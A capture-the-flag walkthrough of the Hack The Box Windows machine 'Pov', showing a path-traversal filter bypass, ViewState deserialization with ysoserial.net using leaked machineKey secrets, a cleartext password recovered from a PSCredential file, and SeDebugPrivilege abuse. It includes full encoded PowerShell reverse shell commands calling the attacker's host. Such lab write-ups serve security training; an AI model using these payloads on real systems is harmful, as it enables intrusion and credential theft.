

# Pov


Machine: [https://app.hackthebox.com/machines/Pov](https://app.hackthebox.com/machines/Pov)

Created by: [d00msl4y3r](https://app.hackthebox.com/users/128944)

Difficulty: Medium

OS: Windows

## Machine Info

Pov is a medium Windows machine that starts with a webpage featuring a business site. Enumerating the initial webpage, an attacker is able to find the subdomain `dev.pov.htb`. Navigating to the newly discovered subdomain, a `download` option is vulnerable to remote file read, giving an attacker the means to get valuable information from the `web.config` file. The subdomain uses the `ViewState` mechanism, which, in combination with the secrets leaked from the `web.config` file, is vulnerable to insecure deserialization, leading to remote code execution as the user `sfitz`. Looking at the remote filesystem, an attacker can discover and manipulate a file that reveals the credentials for the user `alaading`. Once the attacker has code execution as the user `alaading` the `SeDebugPrivilege` is abused to gain code execution in the context of a privileged application, ultimately resulting in code execution as `nt authority\system`.

## Enumeration

### Nmap

```shell
labadmin@labmachine:~/pov$ nmap -p- -sV -sC --min-rate 1000 -oN pov-sv-sc-nmap.log 10.10.11.251
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-11 22:49 PDT
Nmap scan report for 10.10.11.251
Host is up (0.59s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: pov.htb
|_http-server-header: Microsoft-IIS/10.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 163.56 seconds
```

Nmap scan reveals 1 port.

- 80/tcp open  http    Microsoft IIS httpd 10.0

It looks like a Windows machine hosting Microsoft-IIS/10.0 server.

### HTTP port 80

Navigating to `http://http://10.10.11.251/` takes us to a page for business starters.


Browsing the page, under `Contact Us` we find a subdomain `dev.pov.htb`. We also find an email `sfitz@pov.htb` that could be a potential username.


We add the subdomain to `/etv/hosts`.

```shell
labadmin@labmachine:~/pov$ sudo bash -c 'echo "10.10.11.251  dev.pov.htb" >> /etc/hosts'
```

### dev.pov.htb port 80

Navigating to `http://dev.pov.htb/` we are redirected to portfolio page `http://dev.pov.htb/portfolio/` belonging to `Stephen Fitz`.


We also find reference that he has knowledge of ASP.NET and we also find a download button to his CV.


Clicking the download CV button and it download and open the CV in a new tab. This also having several ASP.NET references.


We also catch the download request in BurpSuite.


Sending the request to the repeater tab, we can modify the `file=` parameter and try some payloads for remote arbitrary file read. As we know it is an IIS server so we try to read the [web.config](https://learn.microsoft.com/en-us/aspnet/core/host-and-deploy/iis/web-config?view=aspnetcore-8.0) by path traversal to the root of the web application.

We send the request with `file=../web.config` using BurpSuite.



In the response we notice the filename comes back as `web.config`, which indicate there are some type of input filter to mitigate path traversal.

```text
Content-Disposition: attachment; filename=web.config
```

One way to get around is to use `....//web.config`. Then, when `../` gets removed from the path it will become `../web.config`.

Updating the payload in the BurpSuite repeater and resend and we get the web.config.


We try to reach other system files as `Windows/System32/drivers/etc/hosts`, without success.

## Foothold

Looking in more detail of the Download CV request we see VIEWSTATE. This together with keeping in mind we see many references to ASP.NET. Searching the web for ViewState vulnerabilities we find it is vulnerable to deserialization attacks, that can lead to remote code execution.

[ViewState)]https://learn.microsoft.com/en-us/previous-versions/aspnet/bb386448(v=vs.100)()

[Exploit ViewState deserialization](https://notsosecure.com/exploiting-viewstate-deserialization-using-blacklist3r-and-ysoserial-net)

To exploit this we will use YSoSerial.Net.

Checking ViewState option parameters at YSoSerial.Net we see that it requires the MachineKey parameters. This parameter we can get from the `web.config` we fetched previously.

```shell
<machineKey decryption="AES" decryptionKey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43" validation="SHA1" validationKey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468" />
```

First we need to verify that the `__VIEWSTATEGENERATOR` value generated when creating our payload is the same as the one shown on the request. This value changes depending on the path and the `apppath` parameters.

To verify the values we are using the `=-islegacy` and `--isdebug` flags. We choose `/portfolio` for the `--path`. We set the `--apppath` parameter to 
`/` as a first guess.

```shell
labadmin@labmachine:~/pov$ ../.local/bin/ysoserial/ysoserial.exe -p ViewState -g TypeConfuseDelegate -c "mkdir c:\temp" --path="/portfolio" --apppath="/" --validationalg="SHA1" --validationkey=5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468 --decryptionalg="AES" --islegacy --isdebug
simulateTemplateSourceDirectory returns: /portfolio
simulateGetTypeName returns: portfolio_default_aspx
Calculated pageHashCode in uint: 2383351715
Calculated __VIEWSTATEGENERATOR (ignored): 8E0F0FA3
[...OMITTED...]
```

 ysoserial.exe -p ViewState -g TypeConfuseDelegate -c "mkdir c:\temp" --path="/portfolio" --apppath="/" --validationalg="SHA1" --validationkey=5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468 --decryptionalg="AES" --islegacy --isdebug

We now confirm that the value 8E0F0FA3 calculated by the exploit matches the one we got in our request earlier.

Now we try to use this to setup a revere shell.

First we setup a local listener.

```shell
labadmin@labmachine:~/pov$ rlwrap nc -lvnp 9000
Listening on 0.0.0.0 9000
```

Next we generate powershell reverse shell payload. [https://www.revshells.com/](https://www.revshells.com/). Using the powershell #3 with base64 encoding.

Add the payload to the ysoserial -c parameter.

```shell
labadmin@labmachine:~/pov$ ../.local/bin/ysoserial/ysoserial.exe -p ViewState -g TypeConfuseDelegate -c "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgB[...OMITTED...]" --path="/portfolio" --apppath="/" --validationalg="SHA1" --validationkey=5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468 --decryptionalg="AES" --decryptionkey=74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43
9q7XUGtmfPYdFhx%2BhcRJpEOYB7btFI3CRuil9pRtUsSFlTQ%2B2sbU8H%2FGyhQX3LDweXpZ5tIgstPdPjMgXExHuDkEKb9Iw3BHK7uw2ukxWNBlanC5mjSbvGwEPhW6RUYLmZB3E%2BByMD6f5GB%2FqumEeNIZRGB2Z7iIsWiHj1KFG1sLGOQa3AaA0%2FfV[...OMITTED...]
```

Next we copy the output from ysoserial to the BurpSuite repeater request in the `__VIEWSTATE` parameter and send the request.


And we got reverse shell as `sfitz`.

```shell
labadmin@labmachine:~/pov$ rlwrap nc -lvnp 9000
Listening on 0.0.0.0 9000
Connection received on 10.10.11.251 49672
whoami
pov\sfitz
PS C:\windows\system32\inetsrv>
```

There is no flag on teh desktop.

```shell
PS C:\Users\sfitz\Desktop> dir
PS C:\Users\sfitz\Desktop>
```


## Lateral Movement

Looking around we find `connection.xml` in the Documents folder.

```shell
PS C:\Users\sfitz> tree /F .
Folder PATH listing
Volume serial number is 0899-6CAF
C:\USERS\SFITZ
????3D Objects
????Contacts
????Desktop
????Documents
?       connection.xml
?
????Downloads
????Favorites
?   ?   Bing.url
?   ?
?   ????Links
????Links
?       Desktop.lnk
?       Downloads.lnk
?
????Music
????Pictures
????Saved Games
????Searches
????Videos
PS C:\Users\sfitz>
```

Interesting it contains an encrypted password for alaading.

```shell
PS C:\Users\sfitz> type Documents\connection.xml
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>System.Management.Automation.PSCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>System.Management.Automation.PSCredential</ToString>
    <Props>
      <S N="UserName">alaading</S>
      <SS N="Password">01000000d08c9ddf0115d1118c7a00c04fc297eb01000000cdfb54340c2929419cc739fe1a35bc88000000000200000000001066000000010000200000003b44db1dda743e1442e77627255768e65ae76e179107379a964fa8ff156cee21000000000e8000000002000020000000c0bd8a88cfd817ef9b7382f050190dae03b7c81add6b398b2d32fa5e5ade3eaa30000000a3d1e27f0b3c29dae1348e8adf92cb104ed1d95e39600486af909cf55e2ac0c239d4f671f79d80e425122845d4ae33b240000000b15cd305782edae7a3a75c7e8e3c7d43bc23eaae88fde733a28e1b9437d3766af01fdf6f2cf99d2a23e389326c786317447330113c5cfa25bc86fb0c6e1edda6</SS>
    </Props>
  </Obj>
</Objs>
PS C:\Users\sfitz>
```

We try to use `ImportClixml` to extract clear text password.

```shell
PS C:\Users\sfitz> $encryptedPassword = Import-Clixml -Path 'C:\Users\sfitz\Documents\connection.xml'
PS C:\Users\sfitz> $decryptedPassword = $encryptedPassword.GetNetworkCredential().Password
PS C:\Users\sfitz> $decryptedPassword
f8gQ8fynP44ek1m3
```

Now we can use the `Invoke-Command` module to run commands as `alaading`.

```shell
PS C:\Users\sfitz> $securePassword = ConvertTo-SecureString "f8gQ8fynP44ek1m3" -AsPlainText -force
PS C:\Users\sfitz> $credential = New-Object System.Management.Automation.PsCredential("pov\alaading", $securePassword)
PS C:\Users\sfitz> Invoke-Command -computername pov -Credential $credential -scriptblock {whoami /all}

USER INFORMATION
----------------

User Name    SID
============ =============================================
pov\alaading S-1-5-21-2506154456-4081221362-271687478-1001


GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes
====================================== ================ ============ ==================================================
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users        Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                   Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account             Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication       Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level Label            S-1-16-8192


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeDebugPrivilege              Debug programs                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

And we find user flag under `C:\users\alaading\desktop\user.txt`.

```shell
PS C:\Users\sfitz> Invoke-Command -computername pov -Credential $credential -scriptblock {type 'C:\users\alaading\desktop\user.txt'}
[...OMITTED...]
```

## Privilege Escalation

Before we continue looking further we use chisel to create a SOCKS tunnel to be able log in over WinRM.

First we setup a local web server to host the chisel file to transfer to the target machine.

```shell
labadmin@labmachine:~/tools/Chisel$ python3 -m http.server 6000
Serving HTTP on 0.0.0.0 port 6000 (http://0.0.0.0:6000/) ...
```

Then we fetch it from the target machine.

```shell
PS C:\ProgramData> wget 10.10.16.7:6000/chisel_1.9.1_windows_amd64 -o chisel.exe
PS C:\ProgramData> dir chisel.exe


    Directory: C:\ProgramData


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        6/12/2024   5:38 AM        9006080 chisel.exe
```

Next we start the local chisel server.

```shell
labadmin@labmachine:~/tools/Chisel$ ./chisel_1.9.1_linux_amd64 server --reverse -p 8000
2024/06/12 05:40:09 server: Reverse tunnelling enabled
2024/06/12 05:40:09 server: Fingerprint YXR8Ry6ufb3SkH9QUh84GJSBl4Z6VgCijVCZrgOOGao=
2024/06/12 05:40:09 server: Listening on http://0.0.0.0:8000
```

And we finish by connecting the target client to our local chisel server.

```shell
PS C:\ProgramData> .\chisel.exe client 10.10.16.7:8000 R:5985:127.0.0.1:5985
```

And we login as alaading using evil-winrm.

```shell
labadmin@labmachine:~/pov$ evil-winrm -i 127.0.0.1 -u alaading -p f8gQ8fynP44ek1m3

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\alaading\Documents> whoami
pov\alaading
```

We find that SeDebugPrivilege is enabled for `alaading`.

```shell
*Evil-WinRM* PS C:\Users\alaading\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeDebugPrivilege              Debug programs                 Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

SeDebugPrivilege means alaading has the right to debug applications and processes. So as next step we will upload `nc64.exe` from (https://github.com/int0x33/nc.exe) and [https://github.com/decoder-it/psgetsystem/blob/master/psgetsys.ps1](https://github.com/decoder-it/psgetsystem/blob/master/psgetsys.ps1) to the remote machine to exploit the debug privilege.

```shell
*Evil-WinRM* PS C:\programdata> upload nc64.exe
*Evil-WinRM* PS C:\programdata> upload psgetsys.ps1
```

Next we setup a local listener.

```shell
labadmin@labmachine:~/pov$ rlwrap nc -lvnp 9001
Listening on 0.0.0.0 9001
```

Now we must find the PID of an elevated process, that we are going to abuse and execute arbitrary 
commands in its context. `winlogon` is usually a good option.

```shell
*Evil-WinRM* PS C:\programdata> ps

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
    116      11    17068      12540       3.72   1908   0 chisel
    120       9    13412       8272       1.52   3476   0 chisel
     81       5     2276       3788       0.00   2328   0 cmd
     81       5     2268       3792       0.02   4660   0 cmd
[...OMITTED...]
    255      12     2652      16348       0.61    552   1 winlogon
[...OMITTED...]
```

The process has a PID of 552 so we import psgetsys.ps1 and try to get a reverse shell. Once again using [https://www.revshells.com/](https://www.revshells.com/) to generate reverse shell payload using the powershell #3 with base64 encoding.

```shell
*Evil-WinRM* PS C:\programdata> . .\psgetsys.ps1
*Evil-WinRM* PS C:\programdata> ImpersonateFromParentPid -ppid 552 -command "c:\windows\system32\cmd.exe" -cmdargs "/c powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA2AC4ANwAiACwAOQAwADAAMQApADsAJABzAHQAcgBlAGEAbQAgAD0AIAAkAGMAbABpAGUAbgB0AC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADsAWwBiAHkAdABlAFsAXQBdACQAYgB5AHQAZQBzACAAPQAgADAALgAuADYANQA1ADMANQB8ACUAewAwAH0AOwB3AGgAaQBsAGUAKAAoACQAaQAgAD0AIAAkAHMAdAByAGUAYQBtAC4AUgBlAGEAZAAoACQAYgB5AHQAZQBzACwAIAAwACwAIAAkAGIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkAKQAgAC0AbgBlACAAMAApAHsAOwAkAGQAYQB0AGEAIAA9ACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAALQBUAHkAcABlAE4AYQBtAGUAIABTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBBAFMAQwBJAEkARQBuAGMAbwBkAGkAbgBnACkALgBHAGUAdABTAHQAcgBpAG4AZwAoACQAYgB5AHQAZQBzACwAMAAsACAAJABpACkAOwAkAHMAZQBuAGQAYgBhAGMAawAgAD0AIAAoAGkAZQB4ACAAJABkAGEAdABhACAAMgA+ACYAMQAgAHwAIABPAHUAdAAtAFMAdAByAGkAbgBnACAAKQA7ACQAcwBlAG4AZABiAGEAYwBrADIAIAA9ACAAJABzAGUAbgBkAGIAYQBjAGsAIAArACAAIgBQAFMAIAAiACAAKwAgACgAcAB3AGQAKQAuAFAAYQB0AGgAIAArACAAIgA+ACAAIgA7ACQAcwBlAG4AZABiAHkAdABlACAAPQAgACgAWwB0AGUAeAB0AC4AZQBuAGMAbwBkAGkAbgBnAF0AOgA6AEEAUwBDAEkASQApAC4ARwBlAHQAQgB5AHQAZQBzACgAJABzAGUAbgBkAGIAYQBjAGsAMgApADsAJABzAHQAcgBlAGEAbQAuAFcAcgBpAHQAZQAoACQAcwBlAG4AZABiAHkAdABlACwAMAAsACQAcwBlAG4AZABiAHkAdABlAC4ATABlAG4AZwB0AGgAKQA7ACQAcwB0AHIAZQBhAG0ALgBGAGwAdQBzAGgAKAApAH0AOwAkAGMAbABpAGUAbgB0AC4AQwBsAG8AcwBlACgAKQA="
```

Back to our local listener and we got reverse shell as `nt authority\system`.

```shell
labadmin@labmachine:~/pov$ rlwrap nc -lvnp 9001
Listening on 0.0.0.0 9001
Connection received on 10.10.11.251 49731
whoami
nt authority\system
PS C:\Windows\system32>
```

And we got the root flag under `cd C:\Users\Administrator\Desktop\`.

```shell
PS C:\Users\Administrator\Desktop> type root.txt
[...OMITTED...]
```
